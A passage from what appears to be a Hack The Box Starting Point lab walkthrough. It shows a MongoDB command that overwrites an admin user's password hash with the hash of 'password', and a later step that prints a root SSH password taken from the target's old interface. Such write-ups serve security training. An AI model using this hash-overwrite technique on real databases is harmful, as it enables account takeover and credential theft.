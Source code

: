     > ObjectId is the same as the admin user, x_shadow is the SHA-512 hash of **password**

    ```bash
    db.admin.update({"_id":
    ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$dmDm2G90xGJsQ1xv$jeF/BWNY.EPaO1Prr3HBiaBrhuDYiq40Jq4jLpP6jsLR8ujCoqklUTtTN52fC6jnpx8sd6EC5RDMw2JzCYXxi0"}})
    ```

    ![](../assets/img/htb-starting-point/64.png)

21. Now, we finally reach the intended old UI, where we can steal the SSH credential of the **root** user (*NotACrackablePassword4U2022*)

    ![](../assets/img/htb-starting-point/65.png)
